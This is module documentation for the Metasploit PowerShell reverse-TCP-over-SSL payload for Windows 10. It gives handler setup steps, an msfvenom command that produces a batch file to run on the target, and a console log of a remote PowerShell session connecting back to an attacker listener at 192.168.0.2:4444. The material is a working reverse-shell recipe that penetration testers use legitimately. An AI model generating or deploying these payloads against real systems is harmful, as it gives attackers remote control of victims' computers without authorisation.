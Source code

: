 ## Vulnerable Application

This powershell payload is suitable for the following environments:

* Windows 10

Older versions of Windows (Windows 7, Windows Server 2012) may have issues establishing the SSL connection.
For these versions using the non-SSL payload (cmd/windows/powershell_reverse_tcp) is recommended.

## Verification Steps

1. Do: `use exploit/multi/handler`
2. Do: `set payload cmd/windows/powershell_reverse_tcp_ssl`
2. Do: `set LHOST [IP]`
3. Do: `set LPORT [PORT]`
4. Do: `run`

## Scenarios

### Generating a batch file with msfvenom

```
msfvenom -p cmd/windows/powershell_reverse_tcp_ssl LHOST=192.168.0.2 LPORT=4444 -o powershell_reverse_tcp_ssl.bat
```

The output batch file can be executed directly on the target, or pasted as a command.

### Example usage on Windows 10 target

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload cmd/windows/powershell_reverse_tcp_ssl
payload => cmd/windows/powershell_reverse_tcp_ssl
msf6 exploit(multi/handler) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run
[*] Started reverse SSL handler on 192.168.0.2:4444
[*] Powershell session session 1 opened (192.168.0.2:4444 -> 192.168.0.2:49736 ) at 2021-11-02 13:01:28 +0000

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

User @ DESKTOP-5E3GRS6
PS C:\Users\User> exit
[*] 192.168.0.2 - Powershell session session 1 closed.
```

## Options

### LOAD_MODULES

A list of powershell modules (separated by a commas) to download.

